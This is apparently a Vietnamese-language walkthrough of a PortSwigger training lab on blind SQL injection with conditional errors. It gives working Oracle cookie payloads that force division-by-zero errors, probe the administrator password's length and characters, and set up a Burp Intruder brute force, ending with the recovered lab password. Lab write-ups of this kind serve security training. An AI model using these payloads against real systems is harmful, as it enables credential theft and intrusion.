 # Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:
 
`SQL injection with conditional errors` là kỹ thuật này khác với các cuộc tấn công SQL Injection thông thường ở chỗ nó không trực tiếp trả về kết quả của câu lệnh SQL độc hại, mà sử dụng các lỗi điều kiện để xác định kết quả của truy vấn SQL bằng cách đưa ra các câu hỏi `True` hay `False`

Query được sử dụng trong lab

```
SELECT trackingID FROM someTable WHERE trackingID = '<COOKIE-VALUE'>
```

Mình sẽ bỏ qua hoàn toàn content của cookie từ bây giờ và chỉ cung cấp chuỗi được thêm vào giá trị TrackingId.

Bài này mình làm 2 cách `sqlmap` và `Portswigger`

# Solution:

# PortSwigger:

Kiểm tra `TrackingID` cookie bằng cookie editor. Thêm kí tự `'` thì gây ra lỗi

![image](https://user-images.githubusercontent.com/115911041/234747603-d319fdfc-f2f3-4847-b3fb-01ee3c4b0d6f.png)

Bởi vì loại lỗ hổng này, chúng ta không thể thấy bấy kì kết quả nào của query cũng như sự khác biệt ở output. Tuy nhiên, nếu ta có thể tạo ra các requests gây ra lỗi database, ta có thể suy ra giả trị thật dựa trên việc lỗi có hiển thị ra hay không.

Vậy bước đầu ta cần xác định tham số nào là lỗ hổng bằng cách tạo ra các request mà đưa ra câu trả lời `normal` hoặc `error`.

Inject 1 kí tự `'` tạo ra `server error`, inject 2 kí tự `'` thì không xảy ra. Điều này cho thấy khả năng SQLi, vì thề mình thử vài payload:

`'||(SELECT+null||'` cũng cho ra lỗi, tuy nhiến nếu là  `'||(SELECT+null+FROM_dual)||'` thì không. Vì thế database đang sử dụng là Oracle DB.

***Toán tử `||` cho phép nối chuỗi dữ liệu và kết quả truy vấn. `()` được sử dụng để nhóm các điều kiện hoặc phép tính lại với nhau.***

## TÌm lệnh 'normal' và 'error'

Dựa vào `cheat sheet` mà Lab cung cấp, một ví dụ về conditional error 

`SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FORM DUAL`

Với `normal` query, chúng ta lấy `input` là `FLASE`, dó đó nó không xảy ra lỗi `divison by zero`

```
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

Content của cookie cho `normal` case được cho ra một trang web `normal`:

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Trường hợp `error` có condition được cho là true, do đó khiến cho databse thực hiện `division by zero` dẫn đến `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Giờ chúng ta đã có cách phân biệt kết quả của boolean condition.

## Xác định database table và columns

Bước tiếp theo là xác định table `users` có thật sự tồn tại ở trong database. Với cái này, mình sử dụng database version oracle giới hạn lượng row output:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

Nó cho thấy trang web, xác định đó là query hợp lệ và cũng như table name và cả column names đều hợp lệ.

## Xác định user tồn tại trong database

Để gây ra lỗi, chúng ta mở rộng ví dụ bằng cách thực hiện `division by zero` nếu tên người dùng không tồn tại. Câu lệnh này gây ra `internal server error`, chĩ ra rằng query này dẫn đến `division by zero`

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Thay đổi username thành một giá trị tùy ý, page được hiển thị. Điều này xác định rằng điều kiện `1=1` và `division by zero` phụ thuộc vào việc `FROM users WHERE...`  một phần trả về thứ gì đó.

Điều này xác định `administrator` tồn tại trong database.

## Xác định chiều dài của password

Xác định chiều dài rất dễ dàng bằng cách sử dụng hàm `LENGTH` ở cuối câu điều kiện SQL.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'
```

Sẽ hiển thị ra page, chỉ ra rằng kcheck `1=1`  chưa bào giờ được thực hiện. Sử dụng Burp Intruder, mình kiểm tra các số từ 1 đến 50. Và đây là kết quả:

![image](https://user-images.githubusercontent.com/115911041/234764891-1bee6f68-254a-497e-8724-b0c7a15c0818.png)

Password có độ dài là 20

## Liệt kê password của administrator

Bây giờ ta đã có độ dài của password, ta có thể brute force mỗi kí tự.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'
```

![image](https://user-images.githubusercontent.com/115911041/234771778-bf4cc7ce-115e-4f39-b730-430e28cd716a.png)

Attack type : ***Cluster bomb***

Payload 1: numeric (1..20)

Payload 2: brute force

![image](https://user-images.githubusercontent.com/115911041/234780110-868eeb9d-24a2-48b1-a425-675662867d78.png)

`Password: cdqdx99j8s0srlhmnjq8`

![image](https://user-images.githubusercontent.com/115911041/234780398-d96fd0c5-909d-4f1e-aa4b-5791c3fcb72f.png)



